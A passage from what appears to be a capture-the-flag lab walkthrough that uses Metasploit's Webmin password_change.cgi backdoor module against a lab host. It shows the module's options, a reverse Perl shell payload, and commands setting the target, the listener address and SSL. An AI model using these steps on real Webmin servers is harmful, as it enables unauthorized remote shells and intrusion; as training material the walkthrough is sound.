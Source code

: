 `2 exploit/linux/http/webmin_backdoor 2019-08-10 excellent Yes Webmin password_change.cgi Backdoor`

```
msf5 > use 2
```

3. Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third option we must set to 'True'?

```
msf5 exploit(linux/http/webmin_backdoor) > options

Module options (exploit/linux/http/webmin_backdoor):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to Webmin
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Unix In-Memory)

msf5 exploit(linux/http/webmin_backdoor) > set RHOSTS 10.10.129.211
RHOSTS => 10.10.129.211
msf5 exploit(linux/http/webmin_backdoor) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/webmin_backdoor) > set SSL true
SSL => true
```
